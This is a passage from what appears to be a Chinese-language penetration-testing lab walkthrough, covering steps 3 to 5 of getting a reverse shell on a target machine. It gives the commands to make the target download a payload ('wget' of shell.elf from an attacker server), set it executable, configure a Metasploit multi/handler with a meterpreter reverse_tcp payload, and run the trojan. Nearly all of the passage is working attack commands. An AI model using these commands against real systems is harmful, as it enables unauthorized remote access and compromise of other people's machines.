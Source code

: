 **3.让靶机下载**

![image-20230131205930045](2024-02-13/8.png)

在框中输入wget http://0.0.0.0:9999/shell.elf

并且给shell.elf文件执行权限 chmod 777 shell.elf

**4.开启msf监听**

![](2024-02-13/9.png)



```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 10.0.0.127
set lport 4444
```

**5.使靶机运行木马**

./shell.elf

在msf中就能拿到反弹的shell

![](2024-02-13/10.png)
